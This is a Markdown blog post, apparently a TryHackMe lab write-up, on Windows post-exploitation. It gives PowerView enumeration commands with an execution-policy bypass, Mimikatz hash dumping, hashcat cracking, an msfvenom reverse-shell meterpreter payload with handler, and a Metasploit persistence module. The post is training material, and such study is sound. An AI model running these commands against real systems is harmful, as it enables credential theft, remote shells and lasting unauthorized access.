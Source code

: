 ```yaml
---
date: '2025-02-02T00:07:56+05:30'
draft: false
title: 'Post-Exploitation Basics: Windows Enumeration and Persistence'
slug: post-exp-basics-thm
tags: ["tryhackme", "windows", "post-exploitation", "powershell", "mimikatz"]
category: writeups
showtoc: true
summary: A comprehensive guide to Windows post-exploitation techniques including PowerShell enumeration, Mimikatz usage, and establishing persistence
description: Learn essential Windows post-exploitation techniques including PowerView enumeration, hash dumping with Mimikatz, and maintaining access through persistence modules
---
```


# Windows Post-Exploitation Basics

## Initial Access

Connect to the Windows machine using SSH/RDP for initial access.

## PowerShell Enumeration

### Setting Up PowerShell Environment
```powershell
powershell -ep bypass
. .\location-of\PowerView.ps1
```

### Key Enumeration Commands
1. Enumerate Domain Users:
```powershell
Get-NetUser | select cn
```

2. Enumerate Domain Groups:
```powershell
Get-NetGroup -GroupName *admin*
```

3. Find Shared Folders:
```powershell
Invoke-ShareFinder
```

4. Operating System Information:
```powershell
Get-NetComputer -fulldata | select operatingsystem
```

For more commands, refer to the [PowerView Cheatsheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).

## Mimikatz Hash Dumping

Mimikatz is used for dumping user credentials within AD networks.

### Process
1. Run mimikatz.exe with administrative privileges

2. Check privileges:
```bash
privilege::debug
```
Successful output should show "Privilege '20' ok"

![Mimikatz Privilege Check](images/post-exp-basics-1.png)

3. Dump hashes:
```bash
lsadump::lsa /patch
```

![Hash Dumping Process](images/post-exp-basics-2.png)

4. Crack obtained hashes:
```bash
hashcat -m 1000 <hash> rockyou.txt
```

![Hash Cracking](images/post-exp-basics-3.png)

## Server Manager Enumeration

When connected via SSH/RDP:
- Use Event Viewer to analyze system logs
- Check for suspicious activities
- Monitor system events

## Maintaining Access

### Creating Persistence

1. Generate payload:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
```

2. Set up Metasploit handler:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

3. Establish Persistence:
   - Execute payload on target
   - Background the meterpreter session
   - Use persistence module:
```bash
use exploit/windows/local/persistence
set session <number>
run
```

## Best Practices

1. **Documentation**
   - Record all commands executed
   - Document system changes
   - Note discovered credentials

2. **Operational Security**
   - Minimize noise
   - Clean up artifacts
   - Monitor for detection

3. **Risk Management**
   - Backup before changes
   - Test commands when possible
   - Maintain recovery plans

## Tools Used

1. PowerView
   - AD enumeration
   - Network reconnaissance
   - Permission analysis

2. Mimikatz
   - Credential dumping
   - Hash extraction
   - Token manipulation

3. Metasploit
   - Payload generation
   - Handler setup
   - Persistence establishment

## References

1. [PowerView Documentation](https://powersploit.readthedocs.io/en/latest/)
2. [Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki)
3. [Metasploit Documentation](https://docs.metasploit.com/)

